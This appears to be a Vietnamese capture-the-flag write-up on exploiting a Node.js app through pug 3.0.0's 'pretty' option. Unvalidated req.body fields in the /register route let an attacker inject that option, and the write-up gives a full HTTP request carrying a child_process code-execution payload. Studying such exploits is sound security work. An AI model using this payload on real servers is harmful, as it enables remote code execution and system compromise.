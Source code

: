 ```js
    "express-session": "^1.17.1",
    "mongodb": "^3.6.6",
    "pug": "3.0.0"
  }
}
```  
Với những dạng như này, mình hay xem `package.json` trước tiên, vì rất có thể tác giả sử dụng version của những `lib` hay `module` cũ và tất nhiên nếu may mắn, ta có thể tìm được chi tiết về cách khai thác của bug đó. Trong case này, version của `pug` ở đây là `pug==3.0.0`, ta có thể dễ tìm thấy được issue của nó tại đây: [https://github.com/pugjs/pug/issues/3312](https://github.com/pugjs/pug/issues/3312)  
  
Bug này nhắm vào `pretty options` của `pug compiler`, nghĩa là nếu ta control được biến `pretty` hay `options.pretty` thì có thể `RCE` được (còn tại sao lại RCE được thì các bạn đọc thêm cái issue trên :D), bằng cách khai thác chổ  
```nodejs
...
app.route("/register")
    ...
    })
    .post((req, res) => {
        user = {...req.body, health: Math.floor(Math.random()*4) + 1, power: Math.floor(Math.random()*4) + 1};
        console.log(user)
        db.collection("users").insertOne(user);
        req.session.authenticated = true;
        req.session.user = {};
        req.session.user.username = req.body.username;
        return res.redirect("/");
    })
    ...
```  
`req.body` là input của mình, nghĩa là có thể nhập bất cứ gì mà ta muốn rồi sau đó nó được đưa vào biến `user` => Nên ta có thể đưa biến `pretty` vào chổ này thông qua chức năng `/register`  
  
```text
POST /register HTTP/1.1
Host: localhost:1337
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 111
Origin: http://localhost:1337
Connection: close
Referer: http://localhost:1337/register
Cookie: connect.sid=s%3ABX9aeSpbk4oPCyz9a3907yNADa45EPm0.iI1heOLJUaCjIg9BQREvpcdANOMFUH%2BvwaEXhJHnWss
Upgrade-Insecure-Requests: 1

username=nhienit&password=rce&pretty=');process.mainModule.constructor._load('child_process').exec('calc');_=('
```  
  